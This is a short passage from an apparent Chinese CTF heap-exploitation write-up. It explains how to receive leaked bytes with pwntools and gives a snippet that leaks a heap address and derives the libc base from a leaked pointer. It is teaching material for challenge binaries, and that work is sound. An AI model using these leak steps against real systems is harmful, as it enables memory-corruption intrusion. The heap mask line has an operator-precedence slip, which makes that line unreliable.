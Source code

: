 [![](assets/1701612371-f2fe7b45e6e9eceffbf0026c181f00cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151718-506e02b2-17df-1.png)

[![](assets/1701612371-6d7aa348536de7297a006ac43f4469a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151724-536ffbd2-17df-1.png)  
想接收这个数据，可以用  
1.p.recvuntil('\\n')\[:-1\].ljust(8,'\\x00')  
接收到 '\\n' , 但是不算上 '\\n'  
2.k&0x0000000000ffffff

```plain
ru('INDEX: 1\n')
ru('# CONTENT: ')
k=u64(r(8))
heap_addr=k&0x0000000000ffffff-0x1f0
#heap_addr=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
leak('heap_addr',heap_addr)

ru('INDEX: 3\n')
ru('# CONTENT: ')
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c4b78
leak('libc_base',libc_base)
```
